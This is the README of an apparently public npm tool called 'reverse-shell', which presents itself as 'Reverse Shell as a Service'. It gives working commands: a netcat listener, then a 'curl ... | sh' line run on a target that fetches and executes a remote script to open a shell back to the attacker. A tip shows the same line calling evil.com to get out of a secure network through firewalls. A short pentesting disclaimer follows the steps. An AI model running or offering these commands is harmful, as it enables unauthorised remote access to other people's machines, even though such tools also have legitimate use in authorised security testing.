 # reverse-shell

> Reverse Shell as a Service

[![Build Status](https://travis-ci.org/lukechilds/reverse-shell.svg?branch=master)](https://travis-ci.org/lukechilds/reverse-shell)
[![Coverage Status](https://coveralls.io/repos/github/lukechilds/reverse-shell/badge.svg?branch=master)](https://coveralls.io/github/lukechilds/reverse-shell?branch=master)
[![npm](https://img.shields.io/npm/v/reverse-shell.svg)](https://www.npmjs.com/package/reverse-shell)

Easy to remember reverse shell that should work on most Unix-like systems.

## Usage

### 1. Listen for connection

On your machine, open up a port and listen on it. You can do this easily with netcat.

```
nc -l 1337
```
### 2. Execute reverse shell on target

On the target machine, pipe the output of https://shell.now.sh/yourip:port into sh.

```
curl https://shell.now.sh/192.168.0.69:1337 | sh
```

### 3. Don't be a dick

This is meant to be used for pentesting or helping coworkers understand why they should always lock their computers. Please don't use this for anything malicious.

## Tip

You can use a hostname or an IP. Because this is a reverse connection it can punch through firewalls and connect to the internet.

e.g You could listen for connections on a server at evil.com and get a reverse shell from inside a secure network with:

```
curl https://shell.now.sh/evil.com:1337 | sh
```

## License

MIT © Luke Childs
